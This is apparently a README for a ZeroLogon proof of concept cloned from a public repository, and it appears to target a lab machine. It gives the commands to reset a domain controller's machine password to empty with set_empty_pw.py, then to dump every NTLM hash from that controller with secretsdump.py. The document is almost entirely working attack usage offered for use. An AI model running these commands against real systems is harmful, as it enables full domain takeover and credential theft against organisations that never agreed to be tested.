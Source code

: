 # ZeroLogOn PoC

Repo cloned from: https://github.com/risksense/zerologon

Usage:
```bash
python3 set_empty_pw.py machineName/DomainName machineIPaddress
```

```bash
# obtain all NTML hashes
secretsdump.py -just-dc -no-pass FUSE\$@10.10.10.193
```
